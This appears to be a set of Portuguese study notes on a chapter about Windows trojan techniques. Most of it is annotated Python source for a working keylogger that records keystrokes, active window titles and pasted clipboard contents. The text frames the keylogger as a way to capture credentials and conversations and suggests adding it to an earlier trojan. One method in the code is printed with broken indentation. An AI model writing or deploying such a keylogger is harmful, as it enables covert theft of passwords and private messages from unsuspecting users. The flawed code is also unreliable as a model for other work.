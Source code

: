 # Capitulo 8 

Nesse capítulo são abordadas tarefas comuns de se realizar em um sistema Windows.

## Tarefas comuns de trojans no Windows

Vamos explorar alguns métodos de captura de informações de alvos neste capítulo, direcionados ao Windows. Exemplos comuns são:

- Keylogging: identificação de pressionamento de teclas no teclado
- Screenshots: capturas de tela em momentos específicos pelo usuário
- Shellcode: execução de comandos shell no computador da vítima

É importante que, para realizar os testes, o alvo seja bem modelado para evitar erros em alvos reais.

### Keylogging para captura de pressionamento de teclas

Você pode ler mais sobre keylogging a partir da [internet](https://pt.wikipedia.org/wiki/Keylogger), mas basicamente é o que foi escrito anteriormente: um método de captura de inputs do teclado que é muito útil para captura de credenciais e de conversas.

Os autores mencionam a existência de uma biblioteca chamada [PyWinHook](https://pypi.org/project/pyWinhook/), que é uma adaptação da biblioteca [PyHook](https://pypi.org/project/pyHook/) para o Python 3. Ela utiliza uma função do Windows chamada `SetWindowsHookEx`, que permite a utilização de funções arbitrárias em determinados eventos do Windows. Finalmente, a lib também permite sabermos qual processo está executando as teclas, o que ajuda a desvendar o software em que são usadas as senhas/credenciais eventualmente digitadas.

Para instalar a lib:

```bash
pip install swig
pip install pywinhook
```

Caso não dê certo instalar, experimente:

1. Desligar e ligar a máquina
2. Rodar no VENV a instalação e em seguida rodar no terminal normal

Falando sobre os *Hooks*, eles são nada mais que técnicas de modificação de um determinado sistema operacional/software pela interceptação de chamadas de função/mensagens/eventos entre os componentes de software.

Deixemos que o PyWinHook cuide do baixo nível para nós. Criaremos o arquivo `keylogger.py`:

```py
# Vamos lá, isso vai ser complicadinho para que não manja de Windows
# Lembra da ctypes? Usamos ela para converter os valores de variáveis em Python para C/C++
# Nesse caso, usaremos algumas funções do C/C++ para se comunicar com os dados do Windows
# byref é uma referencia a um ponteiro Windows (usada para apontar processos) para que o ponteiro seja modificado durante a chamada
# create_string_buffer cria um buffer de memória para armazenar string, serve para receber dados
# c_ulong é a variável em C para unsigned long
# windll é o módulo de inferface com as dlls do Windows. Serve para chamar funções nativas, por exemplo,
# user32 ou kernel32, que chama funções ao nível de usuário e ao nível de OS
from ctypes import byref, create_string_buffer, c_ulong, windll 
from io import StringIO # uso de strings input/output

import os
 # O pythoncom é um módulo do pacote pywin32 que fornece funcionalidades para interagir com o COM 
 # (Component Object Model) no Windows. O COM é uma tecnologia da Microsoft que permite a criação 
 # de componentes reutilizáveis e a comunicação entre aplicações ou bibliotecas de forma 
 # independente de linguagem.
import pythoncom    
import pyWinhook as pyHook # hoks
import sys
import time
# O win32clipboard é um módulo do pacote pywin32 que permite interagir com a área de transferência 
# do Windows (clipboard). Ele fornece funcionalidades para copiar, colar e manipular dados 
# diretamente no clipboard, incluindo texto, imagens e outros formatos suportados pelo sistema.
import win32clipboard

TIMEOUT = 60*10

# Classe do Keylogger
class Keylogger:
    def __init__(self):
        self.current_window = None  # nome da janela atual, usada para saber onde os inputs de teclado vão
        
    def get_current_process(self):
    # Obtém o identificador da janela atualmente em foco no sistema.
    hwnd = windll.user32.GetForegroundWindow()  
    
    # Cria uma variável para armazenar o ID do processo (PID) associado à janela em foco.
    pid = c_ulong(0)
    # Preenche o PID do processo associado à janela ativa usando o identificador `hwnd`.
    windll.user32.GetWindowThreadProcessId(hwnd, byref(pid))
    # Converte o valor do PID para uma string para facilitar o uso posterior.
    process_id = f'{pid.value}'
    
    # Cria um buffer para armazenar o nome do executável associado ao processo.
    executable = create_string_buffer(512)
    # Abre o processo associado ao PID para obter informações adicionais sobre ele.
    # O acesso especificado (0x400 | 0x10) permite ler informações básicas sobre o processo.
    h_process = windll.kernel32.OpenProcess(0x400 | 0x10, False, pid)
    
    # Obtém o nome do executável associado ao processo usando a API do Windows.
    windll.psapi.GetModuleBaseNameA(
                h_process, None, byref(executable), 512)
    
    # Cria um buffer para armazenar o título da janela atualmente em foco.
    window_title = create_string_buffer(512)
    # Obtém o título da janela associada ao identificador `hwnd`.
    windll.user32.GetWindowTextA(hwnd, byref(window_title), 512)
    
    try:
        # Tenta decodificar o título da janela para armazená-lo em `self.current_window`.
        # Isso pode falhar se o título contiver caracteres que não podem ser decodificados.
        self.current_window = window_title.value.decode()
    except UnicodeDecodeError as e:
        # Em caso de erro de decodificação, exibe uma mensagem e define o título como desconhecido.
        print(f'{e}: nome da janela desconhecido')
        
    # Imprime as informações coletadas: PID, nome do executável e título da janela.
    print('\n', process_id, executable.value.decode(), self.current_window)
    
    # Fecha os identificadores abertos para a janela (`hwnd`) e o processo (`h_process`)
    # para liberar recursos do sistema.
    windll.kernel32.CloseHandle(hwnd)
    windll.kernel32.CloseHandle(h_process)
```

Ufa! Meio complicadinho, mas vamos seguindo...

O código acima serve somente para saber qual a janela ativa no momento. Agora implementaremos, de fato, o keylogger:

```py
    # mykeystroke na verdade recebe os eventos de input do teclado
    def mykeystroke(self, event): 
            if event.WindowName != self.current_window: # se, na classe atual do Keylogger,
                                                        # a dada janela dele não for atual, atualiza a janela
                self.get_current_process()
            if 32 < event.Ascii < 127:
                print(chr(event.Ascii), end='')         # se os caracteres do evento forem uma sequencia de ASCII, printa eles
            else:
                if event.Key == 'V':                    # Sempre que houver uma tecla "V" maiuscula (podendo ser Ctrl-V), usa o clipboard
                    win32clipboard.OpenClipboard()      # para capturar o que está salvo lá
                    value = win32clipboard.GetClipboardData()
                    win32clipboard.CloseClipboard()
                    print(f'[PASTE] = {value}')         # printa o que foi colado
                    
                else:   
                    print(f'\n{event.Key}')               # se não for ascii, printa a tecla normalmente
                    
            return True
        
def run():
    save_stdout = sys.stdout    # salva o buffer a ser printado
    sys.stdout = StringIO()     # cria com StringIO um buffer para ser usado para output. Essa lib também é usada para simular um arquivo
    kl = Keylogger()            # inicia o keylogger
    hm = pyHook.HookManager()   # inicia o manager dos Hooks que interpretará os eventos de teclado
    hm.KeyDown = kl.mykeystroke # coloca para que todo hook de pressionamento de tecla seja usado como evento no mykeystroke
    hm.HookKeyboard()
    while time.thread_time() < TIMEOUT:
        pythoncom.PumpWaitingMessages() # pythoncom.PumpWaitingMessages() vem da lib do Windows e serve para aguardar uma fila de eventos
                                        # mais ou menos como uma forma de sempre ler todos os eventos, processando os eventos pendentes em ordem.
    log = sys.stdout.getvalue()         # pega o buffer de stdout
    sys.stdout = save_stdout            # salva-o antes do próximo run
    return log

if __name__ == '__main__':
    print(run())
    print('Concluido')
```

Pronto! Agora você tem um código de keylogger funcional!

### Explorando o código

Bom, agora você tem o keylogger. Você pode acioná-lo aos módulos do trojan do Capítulo 7 e pode mudar o TIMEOUT para que ele execute em determinado tempo.